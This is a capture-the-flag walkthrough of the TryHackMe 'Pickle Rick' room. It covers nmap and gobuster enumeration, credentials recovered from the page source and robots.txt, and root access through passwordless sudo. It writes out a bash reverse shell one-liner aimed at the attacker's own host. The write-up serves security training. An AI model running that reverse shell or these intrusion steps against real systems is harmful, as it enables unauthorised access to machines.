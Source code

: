 ```yaml
---
layout: single
title: Try Hack Me - Pickle Rick
permalink: /thm-pickle-rick/
excerpt: "TryHackMe Machine"
classes: wide
header:
  teaser: "/assets/images/thm/pickle_rick/1.png"
  teaser_home_page: true  
categories:
  - tryhackme
  - linux
  - infosec
tags:
  - gobuster
---
```


![1](/assets/images/thm/pickle_rick/1.png)

[Link : https://tryhackme.com/room/picklerick](https://tryhackme.com/room/picklerick)

# 1:Enumeration

First, let’s do an enumeration with the IP address of this machine. I’m gonna run Nmap [Netwok Mapper] to scan any open ports. I’m gonna run this command

```
nmap -sC -sV -oN nmap/initial <machine ip>
```

### Explaining the nmap scan:
* -sC	:= scan using nmap default script
* -sV	:= scan for version
* -oN := output in normal format

![2](/assets/images/thm/pickle_rick/2.png)

Nmap scan shows us. There are 2 ports open ssh and HTTP. First, I’m gonna check port 80 because not common for ssh to log in as anonymous. Let’s check it out.

Cool! we got this web page

![3](/assets/images/thm/pickle_rick/3.png)

This is the very first thing I’m gonna do. You always need to check the page source code maybe we can find something interesting. Well, yes we did.

![4](/assets/images/thm/pickle_rick/4.png)

In this page source. We can see the comment says `Note to self, remember username!`. We have a username. Unfortunately, we don’t know where to log in as this username.

Well, I’m gonna run gobuster. Gobuster is a tool to find the hidden directory on this website

```
gobuster dir -u http://<machine ip> -w /path/to/wordlist.txt -x php,.txt,.html
```

![5](/assets/images/thm/pickle_rick/5.png)

The scan result shows us the hidden directory called `login.php` with status code 200 and we also found `robots.txt`

Let’s take a look at the login.php and robots.txt

![6](/assets/images/thm/pickle_rick/6.png)

If you remember. In the beginning, we found the username. If you look closely at the robots.txt it looks like something, maybe it is the password. Let’s try it.

![7](/assets/images/thm/pickle_rick/7.png)

wow! it’s working. We can see on this page, we can run the command in that box. So, I’m gonna execute reverse shell on that to make an easy foothold.

![8](/assets/images/thm/pickle_rick/8.png)

# 2:Foothold/Gaining Access

![9](/assets/images/thm/pickle_rick/9.png)

```bash
bash -c ‘bash -i >& /dev/tcp/<your ip>/<listening port> 0>&1’
```

![10](/assets/images/thm/pickle_rick/10.png)

First, what I like to do is run the `sudo -l` command to check sudo permission/capability.

![11](/assets/images/thm/pickle_rick/11.png)

After, we ran that command. It says “(ALL) NOPASSWD: ALL”. This says 
> ‘Hey dude! you can run sudo without a password at all and be free to use it’.

This happens because of not properly configure the user and root.

Now, Let’s try find the first ingredient Rick needs.

![12](/assets/images/thm/pickle_rick/12.png)

Ok. We just have the first ingredient. However, We need two more the ingredient. So, let’s try to see any user home directory exists. Look like the user `rick` exists. Let’s try to check it out.

![13](/assets/images/thm/pickle_rick/13.png)

# 3:Privilege Escalation

As we know, This user `www-data` can run sudo without a password at all. This means we can be root by running the command sudo su.

![14](/assets/images/thm/pickle_rick/14.png)

WoW! We just solve this box with ease and gain a lot of knowledge.

# 4:Conclusion

I’ve learned a lot today. This shows us how dangerous it is if you don’t configure something properly. In this case, the sudo command. However, An attacker can be root in your machine if they have a good and strong foothold. Well, before an attacker can access make sure you have to patch all of your weak systems. In this machine, the website can execute bash. This is bad and an attacker easily got the reverse shell.

This room so much fun and I hope you guys have fun and learn something new today.